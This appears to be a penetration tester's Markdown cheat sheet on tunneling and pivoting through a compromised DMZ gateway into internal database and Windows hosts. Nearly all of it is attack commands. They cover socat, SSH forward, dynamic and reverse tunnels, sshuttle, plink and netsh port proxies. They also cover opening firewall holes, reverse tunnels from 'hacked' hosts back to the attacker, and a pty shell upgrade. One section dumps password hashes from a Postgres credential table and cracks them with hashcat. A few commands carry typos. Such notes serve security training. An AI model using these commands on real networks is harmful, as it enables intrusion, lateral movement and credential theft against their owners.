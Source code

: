 # Tunneling

## Port forwarding

### Socat

| WAN | DMZ | Inside LAN |
|-----|-----|------------|
| Kali | Gateway | DB |
| IpAttacker | IpDmzOut - IpDmzIn | IpDbDeepIn |

Run a Socat tunnel on the gateway to the database:
```
gateway$ socat -ddd TCP-LISTEN:2345,fork TCP:DbHostIP:5432
```
and connect to the DB directly from Kali (and retrieve password hashes):
```
kali$ psql -h GatewayIP -p 2345 -U postgres
> \l
> \c mydb
> select table_schema,table_name from information_schema.tables where table_name like '%user%;
> select * from user_table
> \o hashes.txt
> select t1.id,t1.user_name,t2.password_hash from user_table as t1 inner join credential_table as t2 on t1.id = t2.user_id;
> \o
> \q
```
Crack the hashes:
```
kali$ hashcat -m 12001 hashes.txt /usr/share/wordlists/fasttrack.txt # Atlassian hashcat code: hashcat -h
kali$ vim afterhashcat.txt # copy-paste the lines which have been cracked
kali$ tr -d ' ' hashes.txt | awk -F'|' '(NR >2) {print $2, $17}' > loginpass.txt
kali$ vim loginpass.txt # clean ?
kali$ awk -F' ' '{a[$1]=a[$1]?a[$1]":"$2:$2":"$1;}END{for (i in a) print a[i];}' loginpass.txt afterhashcat.txt | awk -F ':' '$3 {print $1, $3}' > final.txt
```

Notes:
- Confluence config file: `/var/atlassian/application-data/confluence/confluence.cfg.xml`
- Awk tips: https://www.theunixschool.com/2012/06/awk-10-examples-to-group-data-in-csv-or.html

Tunnel for an SSH connection: `socat -ddd TCP-LISTEN:2222,fork TCP:DbHostIp:22`

### Ssh

| WAN | DMZ | Inside LAN - subnet 1 | Inside LAN - subnet 2 |
|-----|-----|------------|------|
| Kali | Gateway | DB | Windows |
| IpAttacker | IpDmzOut - IpDmzIn | IpDbOut - IpDbIn | IpWindows |

TTY functionalities with Python:
```
hacked_target$ python3 -c 'import pty; pty.spawn("/bin/sh")'
hacked_target$ python3 -c 'import pty; pty.spawn(["env","TERM=xterm-256color","/bin/bash","--rcfile", "/etc/bash.bashrc","-i"])'
```

Netcat port discovery:
```
hacked_target$ for i in $(seq 1 254) ; do nc -zv -w 1 ${subnet}.${i} $Port; done # listen, verbose, timeout 1sec
```

#### Ssh forward tunnel

```
DmzHost$ ssh -N -L 0.0.0.0:$PortDmzOut:$IpWindows:$PortWindows user@$IpDbOut
Kali$ smbclient -p $PortDmzOut -L //$IpDmzOut/ -U someuser --password=somepass
```

#### Ssh dynamic tunnel

```
DmzHost$ ssh -N -D 0.0.0.0:$PortDmzOut user@$IpDbOut
Kali$ sudo vi /etc/proxychains4.conf
    socks5 $IpDmzOut $PortDmzOut
Kali$ proxychains smbclient -L //$IpWindows/ -U someuser --password=somepass
Kali$ proxychains nmap -vvv -sT --top-ports=20 -Pn $IpWindows
```

#### Ssh reverse tunnel

```
hackeduser@hackedtarget$ sh -N -R 127.0.0.1:$KaliPort:$IpDbIn:$PortDbIn user@IpAttacker # Only Kali will be able to use this tunnel...
hackeduser@hackedtarget$ sh -N -R 0.0.0.0:$KaliPort:$IpDmzIn:$PortDmzIn user@IpAttacker # All IPs will be able to connect through $KaliPort on the Kali box
```
Check with `ss -lntpu` on Kali. Example of connection with PostGreSQL:
```
kali$ psql -h 127.0.0.1 -p $KaliPort -U postgre_user
```
then on the DB, as usual:
```
postgre=# \l
postgre=# \c some_database
postgre=# select * from some_table ;
```

#### Ssh dynamic reverse tunnel

```
hackeduser@hackedtarget$ ssh -N -R $KaliPort kaliuser@IpAttacker
```
then check with `ss -lntpu`, prepare a socks proxy on `/etc/proxychains4.conf`:
```
...
socks5 127.0.0.1 $KaliPort
```
and scan the new target:
```
kali$ proxychains nmap -vvv -sT --top-ports=20 -Pn -n $NewTargetIp
```

#### Sshuttle

On the target:
```
hackeduser@hackedtarget$ socat TCP-LISTEN:2222,fork TCP:$IpDbIn:22
```
then run the sshuttle on Kali:
```
kali$ sshuttle -r db_user@IpDmzOut:2222 a.b.c.0/24 aa.bb.cc.0/24 # $IpDbOut subnet to $IpWindows subnet
```
and test
```
kali$ smbclient -L //$IpWindows/ -U some_user --password=some_pass
```

### Windows

#### Ssh.exe

With an ssh binary on Windows, tunnel work in the same way:
```
Windows PS> ssh.exe -N -R $ListeningPort user@$IpAttacker
Kali$ ss -lntpu # check
Kali$ vim /etc/proxychains4.conf
    socks5 127.0.0.1 $ListeningPort
Kali$ proxychains mycommand myoptions # for example: `proxychains psql -h $IpDbOut -U postgre_user`
```

#### Plink

```
KaliRshell$ cmdprompt> C:\path\to\plink.exe -ssh -l kaliuser -pw somepass -R 127.0.0.1:9833:127.0.0.1:3389 $IpAttacker
KaliRshell$ cmdprompt> KaliNormalShell$ ss -ntplu # check
Kali$ xfreerdp /u:rdp_user /p:rdp_pass /v:127.0.0.1:9833
```

#### Netsh

On the Windows target, poke a firewall hole with Netsh by adding a portproxy rule (forwarding):
```
cmd> netsh interface portproxy add v4tov4 listenport=2222 listenaddress=$IpDmzOut connectport=22 connectaddress=$IpDbOut
```
and check:
cmd> netstat -anp TCP | find "2222"
cmd> netsh interface portproxy show all
```
then open the port (hole):
```
cmd> netsh advfirewall firewall add rule name="my_rule_name" protocol=TCP dir=in localip=$IpDmzOut localport=2222 action=allow
```
Connect from Kali:
```
kali$ ssh user@$IpDmzOut -p2222
```
and when done, clean the hole:
```
cmd> netsh advfirewall firewall delete rule name="my_rule_name"
cmd> netsh interface portproxy del v4tov4 listenport=2222 listenaddress=$IpDmzOut
cmd> netsh interface portproxy show all
```



